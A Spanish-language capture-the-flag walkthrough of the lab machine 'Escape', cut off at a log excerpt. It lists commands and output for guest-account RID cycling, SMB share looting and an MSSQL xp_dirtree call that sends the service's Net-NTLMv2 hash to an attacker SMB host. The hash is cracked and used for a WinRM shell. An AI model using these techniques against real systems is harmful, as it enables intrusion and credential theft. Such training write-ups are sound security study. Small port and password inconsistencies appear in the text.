

# Escape

`Escape` es una máquina Windows Active Directory de dificultad media que comienza con un recurso compartido SMB en el que los usuarios autenticados como invitados pueden descargar un archivo PDF confidencial. Dentro del archivo PDF hay credenciales temporales disponibles para acceder a un servicio MSSQL que se ejecuta en la máquina. Un atacante puede forzar al servicio MSSQL a autenticarse en su máquina y capturar el hash. Resulta que el servicio se está ejecutando bajo una cuenta de usuario y el hash es descifrable. Con un conjunto válido de credenciales, un atacante puede ejecutar un comando en la máquina usando WinRM. Al enumerar la máquina, un archivo de registro revela las credenciales del usuario `ryan.cooper`. Una enumeración adicional de la máquina revela que hay una autoridad de certificación presente y una plantilla de certificado es vulnerable al ataque ESC1, lo que significa que los usuarios que son legibles para usar esta plantilla pueden solicitar certificados para cualquier otro usuario en el dominio, incluidos los administradores de dominio. Por lo tanto, al explotar la vulnerabilidad ESC1, un atacante puede obtener un certificado válido para la cuenta de administrador y luego usarlo para obtener el hash del usuario administrador.

<figure><figcaption></figcaption></figure>

***

## Reconnaissance

Realizaremos un reconocimiento con **nmap** para ver los puertos que están expuestos en la máquina **Escape**. Este resultado lo almacenaremos en un archivo llamado `allPorts`.

```bash
❯ nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.11.202 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-19 19:05 CET
Initiating SYN Stealth Scan at 19:05
Scanning 10.10.11.202 [65535 ports]
Discovered open port 135/tcp on 10.10.11.202
Discovered open port 139/tcp on 10.10.11.202
Discovered open port 445/tcp on 10.10.11.202
Discovered open port 53/tcp on 10.10.11.202
Discovered open port 49689/tcp on 10.10.11.202
Discovered open port 389/tcp on 10.10.11.202
SYN Stealth Scan Timing: About 22.90% done; ETC: 19:07 (0:01:44 remaining)
Discovered open port 49752/tcp on 10.10.11.202
Discovered open port 636/tcp on 10.10.11.202
Discovered open port 49732/tcp on 10.10.11.202
Discovered open port 88/tcp on 10.10.11.202
Discovered open port 88/tcp on 10.10.11.202
SYN Stealth Scan Timing: About 31.44% done; ETC: 19:08 (0:02:13 remaining)
SYN Stealth Scan Timing: About 46.69% done; ETC: 19:08 (0:01:44 remaining)
Discovered open port 49690/tcp on 10.10.11.202
Discovered open port 3269/tcp on 10.10.11.202
Discovered open port 593/tcp on 10.10.11.202
SYN Stealth Scan Timing: About 61.94% done; ETC: 19:08 (0:01:14 remaining)
Discovered open port 1433/tcp on 10.10.11.202
SYN Stealth Scan Timing: About 77.19% done; ETC: 19:08 (0:00:45 remaining)
Discovered open port 464/tcp on 10.10.11.202
Discovered open port 3268/tcp on 10.10.11.202
Discovered open port 49713/tcp on 10.10.11.202
Discovered open port 49667/tcp on 10.10.11.202
Discovered open port 9389/tcp on 10.10.11.202
Discovered open port 5985/tcp on 10.10.11.202
Completed SYN Stealth Scan at 19:08, 192.97s elapsed (65535 total ports)
Nmap scan report for 10.10.11.202
Host is up, received user-set (0.13s latency).
Scanned at 2025-02-19 19:05:34 CET for 192s
Not shown: 65515 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack ttl 127
88/tcp    open  kerberos-sec     syn-ack ttl 127
135/tcp   open  msrpc            syn-ack ttl 127
139/tcp   open  netbios-ssn      syn-ack ttl 127
389/tcp   open  ldap             syn-ack ttl 127
445/tcp   open  microsoft-ds     syn-ack ttl 127
464/tcp   open  kpasswd5         syn-ack ttl 127
593/tcp   open  http-rpc-epmap   syn-ack ttl 127
636/tcp   open  ldapssl          syn-ack ttl 127
1433/tcp  open  ms-sql-s         syn-ack ttl 127
3268/tcp  open  globalcatLDAP    syn-ack ttl 127
3269/tcp  open  globalcatLDAPssl syn-ack ttl 127
5985/tcp  open  wsman            syn-ack ttl 127
9389/tcp  open  adws             syn-ack ttl 127
49667/tcp open  unknown          syn-ack ttl 127
49689/tcp open  unknown          syn-ack ttl 127
49690/tcp open  unknown          syn-ack ttl 127
49713/tcp open  unknown          syn-ack ttl 127
49732/tcp open  unknown          syn-ack ttl 127
49752/tcp open  unknown          syn-ack ttl 127

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 193.11 seconds
           Raw packets sent: 196703 (8.655MB) | Rcvd: 249 (14.596KB)
```

A través de la herramienta de [`extractPorts`](https://pastebin.com/X6b56TQ8), la utilizaremos para extraer los puertos del archivo que nos generó el primer escaneo a través de `Nmap`. Esta herramienta nos copiará en la clipboard los puertos encontrados.

```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.11.202
	[*] Open ports: 53,88,135,139,389,445,464,593,636,1433,3268,3269,5985,9389,49667,49689,49690,49713,49732,49752

[*] Ports copied to clipboard
```

Lanzaremos scripts de reconocimiento sobre los puertos encontrados y lo exportaremos en formato oN y oX para posteriormente trabajar con ellos. Verificamos a través del resultado obtenido de que la máquina se trata de un Domain Controller (DC) por los puertos y servicios que se encuentran expuestos.

```bash
❯ nmap -sCV -p53,88,135,139,389,445,464,593,636,1433,3268,3269,5985,9389,49667,49689,49690,49713,49732,49752 10.10.11.202 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-19 19:09 CET
Nmap scan report for sequel.htb (10.10.11.202)
Host is up (0.15s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-02-20 02:10:13Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Not valid before: 2024-01-18T23:03:57
|_Not valid after:  2074-01-05T23:03:57
|_ssl-date: 2025-02-20T02:11:50+00:00; +8h00m48s from scanner time.
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Not valid before: 2024-01-18T23:03:57
|_Not valid after:  2074-01-05T23:03:57
|_ssl-date: 2025-02-20T02:11:51+00:00; +8h00m48s from scanner time.
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-ntlm-info: 
|   10.10.11.202:1433: 
|     Target_Name: sequel
|     NetBIOS_Domain_Name: sequel
|     NetBIOS_Computer_Name: DC
|     DNS_Domain_Name: sequel.htb
|     DNS_Computer_Name: dc.sequel.htb
|     DNS_Tree_Name: sequel.htb
|_    Product_Version: 10.0.17763
| ms-sql-info: 
|   10.10.11.202:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-02-20T01:57:03
|_Not valid after:  2055-02-20T01:57:03
|_ssl-date: 2025-02-20T02:11:50+00:00; +8h00m48s from scanner time.
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Not valid before: 2024-01-18T23:03:57
|_Not valid after:  2074-01-05T23:03:57
|_ssl-date: 2025-02-20T02:11:50+00:00; +8h00m48s from scanner time.
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-02-20T02:11:51+00:00; +8h00m48s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Not valid before: 2024-01-18T23:03:57
|_Not valid after:  2074-01-05T23:03:57
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49689/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49690/tcp open  msrpc         Microsoft Windows RPC
49713/tcp open  msrpc         Microsoft Windows RPC
49732/tcp open  msrpc         Microsoft Windows RPC
49752/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Windows Server 2019 (97%), Microsoft Windows 10 1903 - 21H1 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-02-20T02:11:11
|_  start_date: N/A
|_clock-skew: mean: 8h00m47s, deviation: 0s, median: 8h00m47s

TRACEROUTE (using port 139/tcp)
HOP RTT       ADDRESS
1   128.62 ms 10.10.16.1
2   192.82 ms sequel.htb (10.10.11.202)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 105.88 seconds
```

Transformaremos el archivo generado `targetedXML` para transformar el XML en un archivo HTML para posteriormente montar un servidor web y visualizarlo.

```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Accederemos a[ http://localhost](http://localhost) y verificaremos el resultado en un formato más cómodo para su análisis.

<figure><figcaption></figcaption></figure>

A través de la herramienta de `nxc` y `ldapsearch` enumeraremos el equipo para localizar más información. Entre la información obtenida, verificamos el `hostname`, versión del SO y el nombre del dominio.

```bash
❯ nxc smb 10.10.11.202
SMB         10.10.11.202    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:False)

❯ ldapsearch -x -H ldap://10.10.11.202 -s base | grep defaultNamingContext
defaultNamingContext: DC=sequel,DC=htb
```

Añadiremos en nuestro archivo `/etc/hosts` las entradas correspondientes para que a la hora de hacer referencia al dominio o el equipo, nos responda correctamente a la dirección IP del Domain Controller.

```bash
❯ cat /etc/hosts | grep sequel.htb
10.10.11.202 sequel.htb DC.sequel.htb
```

## RID Cycling Attack

Revisaremos si el usuario `guest` (Invitado) se encuentra habilitado en el dominio. A través de `nxc` logramos verificar de la existencia del usuario, con lo cual podríamos llegar a intentar enumerar el SMB con este usuario, probar de enumerar usuarios, etc.

```bash
❯ nxc smb 10.10.11.202 -u 'guest' -p ''
SMB         10.10.11.202    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.202    445    DC               [+] sequel.htb\guest: 
```

A través de la herramienta de `ridenum` trataremos de realizar un `RID Cycling Attack` para lograr enumerar usuarios a través de fuerza bruta del RID. Comprobamos el resultado en el cual se muestran los diferentes nombres de usuarios existentes en el dominio.

```bash
❯ ridenum 10.10.11.202 500 2500 guest ''
[*] Attempting lsaquery first...This will enumerate the base domain SID
[*] Successfully enumerated base domain SID. Printing information: 
Domain Name: sequel
Domain Sid: S-1-5-21-4078382237-1492182817-2568127209
[*] Moving on to extract via RID cycling attack.. 
[*] Enumerating user accounts.. This could take a little while.
Account name: sequel\Administrator
Account name: sequel\Guest
Account name: sequel\krbtgt
Account name: sequel\DC$
Account name: sequel\Tom.Henn
Account name: sequel\Brandon.Brown
Account name: sequel\Ryan.Cooper
Account name: sequel\sql_svc
Account name: sequel\James.Roberts
Account name: sequel\Nicole.Thompson
[*] RIDENUM has finished enumerating user accounts...
```

Nos guardaremos el resultado en el archivo `users.txt`. A través de expresiones regulares, nos quedaremos solamente con los nombres de usuarios correspondientes.

```bash
❯ cat users.txt
Account name: sequel\Administrator
Account name: sequel\Guest
Account name: sequel\krbtgt
Account name: sequel\DC$
Account name: sequel\Tom.Henn
Account name: sequel\Brandon.Brown
Account name: sequel\Ryan.Cooper
Account name: sequel\sql_svc
Account name: sequel\James.Roberts
Account name: sequel\Nicole.Thompson

❯ cat users.txt | awk '{print $NF}' FS='\\' | sponge users.txt

❯ cat users.txt
Administrator
Guest
krbtgt
DC$
Tom.Henn
Brandon.Brown
Ryan.Cooper
sql_svc
James.Roberts
Nicole.Thompson
```

## AS-REP Roast Attack \[FAILED]

Dado que disponemos de una lista potencial de usuarios válidos del dominio, probaremos de realizar un `AS-REP Roast Attack` para lograr obtener un `Ticket Granting Ticket` (`TGT`) de aquellos usuarios que tengan asignado el `DONT_REQ_PREAUTH` de Kerberos.

En este caso, no logramos obtener ningún hash debido que ningún usuario tenía la flag marcada.

```bash
❯ impacket-GetNPUsers -no-pass -usersfile users.txt sequel.htb/ 2>/dev/null
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Guest doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User DC$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Tom.Henn doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Brandon.Brown doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Ryan.Cooper doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sql_svc doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User James.Roberts doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Nicole.Thompson doesn't have UF_DONT_REQUIRE_PREAUTH set
```

## SMB Enumeration

A través del usuario `guest` (Invitado) realizaremos una enumeración de los recursos compartidos del sistema para verificar si a través de este usuario tenemos acceso algún recurso compartido.

En el resultado obtenido, verificamos que tenemos acceso al recurso compartido `Public` con permisos de `READ`.

```bash
❯ nxc smb 10.10.11.202 -u 'guest' -p '' --shares
SMB         10.10.11.202    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.202    445    DC               [+] sequel.htb\guest: 
SMB         10.10.11.202    445    DC               [*] Enumerated shares
SMB         10.10.11.202    445    DC               Share           Permissions     Remark
SMB         10.10.11.202    445    DC               -----           -----------     ------
SMB         10.10.11.202    445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.202    445    DC               C$                              Default share
SMB         10.10.11.202    445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.202    445    DC               NETLOGON                        Logon server share 
SMB         10.10.11.202    445    DC               Public          READ            
SMB         10.10.11.202    445    DC               SYSVOL                          Logon server share 
```

Mediante el módulo de `spider_plus` realizaremos una enumeración de los recursos compartidos para que se nos genere un archivo `JSON` con la estructura de los archivos que se encuentran en los diferentes recursos compartidos.

Esto es bastante útil para disponer de un **mapa** de los recursos compartidos y así localizar de manera más eficaz aquellos archivos que sean más interesantes.

```bash
❯ nxc smb 10.10.11.202 -u 'guest' -p '' -M spider_plus
SMB         10.10.11.202    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.202    445    DC               [+] sequel.htb\guest: 
SPIDER_PLUS 10.10.11.202    445    DC               [*] Started module spidering_plus with the following options:
SPIDER_PLUS 10.10.11.202    445    DC               [*]  DOWNLOAD_FLAG: False
SPIDER_PLUS 10.10.11.202    445    DC               [*]     STATS_FLAG: True
SPIDER_PLUS 10.10.11.202    445    DC               [*] EXCLUDE_FILTER: ['print$', 'ipc$']
SPIDER_PLUS 10.10.11.202    445    DC               [*]   EXCLUDE_EXTS: ['ico', 'lnk']
SPIDER_PLUS 10.10.11.202    445    DC               [*]  MAX_FILE_SIZE: 50 KB
SPIDER_PLUS 10.10.11.202    445    DC               [*]  OUTPUT_FOLDER: /tmp/nxc_hosted/nxc_spider_plus
SMB         10.10.11.202    445    DC               [*] Enumerated shares
SMB         10.10.11.202    445    DC               Share           Permissions     Remark
SMB         10.10.11.202    445    DC               -----           -----------     ------
SMB         10.10.11.202    445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.202    445    DC               C$                              Default share
SMB         10.10.11.202    445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.202    445    DC               NETLOGON                        Logon server share 
SMB         10.10.11.202    445    DC               Public          READ            
SMB         10.10.11.202    445    DC               SYSVOL                          Logon server share 
SPIDER_PLUS 10.10.11.202    445    DC               [+] Saved share-file metadata to "/tmp/nxc_hosted/nxc_spider_plus/10.10.11.202.json".
SPIDER_PLUS 10.10.11.202    445    DC               [*] SMB Shares:           6 (ADMIN$, C$, IPC$, NETLOGON, Public, SYSVOL)
SPIDER_PLUS 10.10.11.202    445    DC               [*] SMB Readable Shares:  2 (IPC$, Public)
SPIDER_PLUS 10.10.11.202    445    DC               [*] SMB Filtered Shares:  1
SPIDER_PLUS 10.10.11.202    445    DC               [*] Total folders found:  0
SPIDER_PLUS 10.10.11.202    445    DC               [*] Total files found:    1
SPIDER_PLUS 10.10.11.202    445    DC               [*] File size average:    48.39 KB
SPIDER_PLUS 10.10.11.202    445    DC               [*] File size min:        48.39 KB
SPIDER_PLUS 10.10.11.202    445    DC               [*] File size max:        48.39 KB
```

Del archivo que se nos genera a través del `spider_plus`, comprobaremos el contenido de este. En el resultado se nos muestra que en los recursos compartidos del `DC` solamente se encuentra un archivo llamado `SQL Server Procedures.pdf` en el recurso compartido `Public`.

```bash
❯ cat /tmp/nxc_hosted/nxc_spider_plus/10.10.11.202.json | jq
{
  "Public": {
    "SQL Server Procedures.pdf": {
      "atime_epoch": "2022-11-19 12:50:54",
      "ctime_epoch": "2022-11-17 20:47:32",
      "mtime_epoch": "2022-11-19 12:51:25",
      "size": "48.39 KB"
    }
  }
}
```

Descargaremos este archivo a través de `nxc` y lo almacenaremos con el nombre `SQLServerProcedures.pdf`.

```bash
❯ nxc smb 10.10.11.202 -u 'guest' -p '' --share 'Public' --get-file 'SQL Server Procedures.pdf' SQLServerProcedures.pdf
SMB         10.10.11.202    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.202    445    DC               [+] sequel.htb\guest: 
SMB         10.10.11.202    445    DC               [*] Copying "SQL Server Procedures.pdf" to "SQLServerProcedures.pdf"
SMB         10.10.11.202    445    DC               [+] File "SQL Server Procedures.pdf" was downloaded to "SQLServerProcedures.pdf"
```

## Information Leakage

Al visualizar el contenido del PDF descargado, se comprueba que en el apartado de `Bonus` se muestran credenciales de acceso a la base de datos de `MSSQL`.

<figure><figcaption></figcaption></figure>

## Initial Foothold

### MSSQL Enumeration

Dado que el servicio de `MSSQL` se encuentra expuesto por el puerto `3306`, probaremos de autenticarnos con las credenciales obtenidas `PublicUser/GuestUserCanWrite1`.&#x20;

Comprobamos el acceso al servicio y realizamos una enumeración de las bases de datos presentes, en el cual no obtenemos ninguna base de datos que podamos extraer información útil.

```bash
❯ impacket-mssqlclient sequel.htb/'PublicUser':'GuestUserCantWrite1'@10.10.11.202 2>/dev/null
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC\SQLMOCK): Line 1: Changed database context to 'master'.
[*] INFO(DC\SQLMOCK): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (PublicUser  guest@master)> enum_db;
name     is_trustworthy_on   
------   -----------------   
master                   0   

tempdb                   0   

model                    0   

msdb                     1  
```

### Attempting to enable xp\_cmdshell component in MSSQL \[FAILED]

Probaremos de habilitar el compontente `xp_cmdshell` para tratar de obtener una vía potencial de lograr ejecutar comandos arbitrarios en el sistema. En este caso, se nos muestra que no disponemos del acceso necesario para habilitar el componente y lograr obtener finalmente el `RCE`.

```bash
SQL (PublicUser  guest@master)> EXEC sp_configure 'Show Advanced Options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
ERROR(DC\SQLMOCK): Line 105: User does not have permission to perform this action.
ERROR(DC\SQLMOCK): Line 1: You do not have permission to run the RECONFIGURE statement.
ERROR(DC\SQLMOCK): Line 62: The configuration option 'xp_cmdshell' does not exist, or it may be an advanced option.
ERROR(DC\SQLMOCK): Line 1: You do not have permission to run the RECONFIGURE statement.
```

### MSSQL Hash Stealing \[Net-NTLMv2] (xp\_dirtree)

En este punto, lo que realizaremos es intentar abusar del componente `xp_dirtree` para obtener un hash `Net-NTLMv2` del usuario que ejecuta el servicio de `MSSQL.` Básicamente, lo que intentaremos realizar es que el servicio de `MSSQL` se intente autenticar en nuestro servidor `SMB` que montaremos, para así lograr obtener el hash y posteriormente intentar crackearlo.

Desde nuestro equipo montaremos un servidor `SMB` con `impacket` a través del siguiente comando.

```bash
❯ smbserver.py smbFolder $(pwd) -smb2support
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```

Desde el servicio de `MSSQL` intentaremos listar el contenido de nuestro recurso que estamos compartiendo.

```bash
SQL (PublicUser  guest@master)> EXEC Master.dbo.xp_dirtree"\\10.10.16.3\x",1,1;
subdirectory   depth   file   
------------   -----   ----   
SQL (PublicUser  guest@master)>
```

Verificamos nuevamente en nuestro servidor `SMB` que hemos logrado obtener un hash `Net-NTLMv2` del usuario que ha intentado autenticarse a nuestro servidor. En este caso, el usuario se trata de `sql_svc`.

```bash
❯ smbserver.py smbFolder $(pwd) -smb2support
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.11.202,55936)
[*] AUTHENTICATE_MESSAGE (sequel\sql_svc,DC)
[*] User DC\sql_svc authenticated successfully
[*] sql_svc::sequel:aaaaaaaaaaaaaaaa:e88ef89eb51ddb11681649f6078294fe:010100000000000080cbce391483db01e9c1c347e2fa202900000000010010006d006c004300430052006b0066006d00030010006d006c004300430052006b0066006d00020010006500610050004a007000710057007100040010006500610050004a0070007100570071000700080080cbce391483db01060004000200000008003000300000000000000000000000003000008e95df638ff6f53618e3a9748a9c51690f0ea0b3d458d87764b8c66a702fd6500a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310036002e0033000000000000000000
[*] Closing down connection (10.10.11.202,55936)
[*] Remaining connections []
```

A través de `hashcat` logramos finalmente crackear el hash del usuario mencionado.

```bash
❯ hashcat -a 0 hashes /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting in autodetect mode

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-sandybridge-11th Gen Intel(R) Core(TM) i5-1135G7 @ 2.40GHz, 2913/5891 MB (1024 MB allocatable), 8MCU

Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

5600 | NetNTLMv2 | Network Protocol

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

SQL_SVC::sequel:aaaaaaaaaaaaaaaa:e88ef89eb51ddb11681649f6078294fe:010100000000000080cbce391483db01e9c1c347e2fa202900000000010010006d006c004300430052006b0066006d00030010006d006c004300430052006b0066006d00020010006500610050004a007000710057007100040010006500610050004a0070007100570071000700080080cbce391483db01060004000200000008003000300000000000000000000000003000008e95df638ff6f53618e3a9748a9c51690f0ea0b3d458d87764b8c66a702fd6500a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310036002e0033000000000000000000:REGGIE1234ronnie
```

Validaremos a través de `nxc` de las credenciales obtenidas para verificar que podemos autenticarnos correctamente.

Por otro lado, probamos de verificar si teníamos capacidad de conectarnos directamente al `DC` a través de `WinRM`. En e resultado se nos muestra el mensaje como `Pwn3d!`, con lo cual nos confirma de que podemos conectarnos remotamente al equipo con dichas credenciales.

```bash
❯ nxc smb 10.10.11.202 -u 'sql_svc' -p 'REGGIE1234ronnie'
SMB         10.10.11.202    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.202    445    DC               [+] sequel.htb\sql_svc:REGGIE1234ronnie 
❯ nxc winrm 10.10.11.202 -u 'sql_svc' -p 'REGGIE1234ronnie'
WINRM       10.10.11.202    5985   DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:sequel.htb)
WINRM       10.10.11.202    5985   DC               [+] sequel.htb\sql_svc:REGGIE1234ronnie (Pwn3d!)
```

A través de `evil-winrm` comprobamos que logramos obtener acceso remoto al `Domain Controller`.

```bash
❯ evil-winrm -i 10.10.11.202 -u 'sql_svc' -p 'REGGIE1234ronnie'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\sql_svc\Documents> 
```

## Initial Access

### Information Leakage

Realizando una enumeración del equipo, localizamos un archivo llamado `ERRORLOG.BAK` localizado en `C:\SQLServer\Logs`. Este archivo quizás pueda tener información que nos pueda servir más adelante, por lo tanto nos lo descargaremos a través del comando `download` que nos proporciona `evil-winrm`.

```powershell
*Evil-WinRM* PS C:\SQLServer\Logs> ls


    Directory: C:\SQLServer\Logs


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         2/7/2023   8:06 AM          27608 ERRORLOG.BAK


*Evil-WinRM* PS C:\SQLServer\Logs> download ERRORLOG.BAK
                                        
Info: Downloading C:\SQLServer\Logs\ERRORLOG.BAK to ERRORLOG.BAK
                                        
Info: Download successful!
```

Analizando el archivo `ERRORLOG.BAK` logramos verificar en los logs un intento de inicio de sesión del usuario `Ryan.Cooper` en el cual nos aparece las credenciales en texto plano de dicho usuario.


```bash
2022-11-18 13:43:07.44 Logon       Logon failed for user 'sequel.htb\Ryan.Cooper'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
2022-11-18 13:43:07.48 Logon       Error: 18456, Severity: 14, State: 8.
